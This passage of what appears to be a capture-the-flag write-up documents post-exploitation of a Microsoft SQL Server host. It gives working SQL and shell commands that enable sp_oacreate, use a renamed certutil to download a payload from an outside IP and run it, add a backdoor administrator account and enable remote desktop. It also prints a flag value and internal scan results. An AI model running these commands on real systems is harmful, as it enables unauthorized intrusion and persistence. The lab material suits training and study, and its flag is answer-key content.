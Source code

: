Use `sp_oacreate` to launch the horse, and then directly raise the authority to `NT AUTHORITY\SYSTEM`.

````sql
# determine the status of SP_OACREATE, and the existence returns 1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

# Enable SP_OACREATE
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;

# Copy certutil.exe to the C:\Windows\Temp\ directory and rename it
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'C:\Windows\Temp\h3.exe';

# Download Mazi remotely
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\h3.exe -urlcache -split -f "http://192.168.21.42:9999/1.exe" C:\Windows\Temp\1.exe'

# Use forfiles to run horses
declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c C:\Windows\Temp\1.exe';
```

![](./images/2.png)

Add the backdoor user, open the remote desktop, and read `flag01.txt` in the `C:\Users\Administrator\flag` directory: `flag{5f653eba-dc89-4137-a716-8b25e9623a68}`.

```bash
net user Hacker qwer1234! /add
net localgroup administrators hacker /add
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![](./images/3.png)

Then use the same method to download `fscan` to collect network segment information.

```
(icmp) Target 172.22.8.18 is alive
(icmp) Target 172.22.8.15 is alive
(icmp) Target 172.22.8.31 is alive
(icmp) Target 172.22.8.46 is alive
[*] Icmp alive hosts len is: 4
172.22.8.46:445 open
172.22.8.18:1433 open
172.22.8.31:445 open
172.22.8.15:445 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.31:139 open
172.22.8.15:139 open
172.22.8.18:139 open
172.22.8.31:135 open
172.22.8.46:135 open
172.22.8.15:135 open
172.22.8.18:135 open
172.22.8.46:80 open
172.22.8.18:80 open
172.22.8.15:88 open
````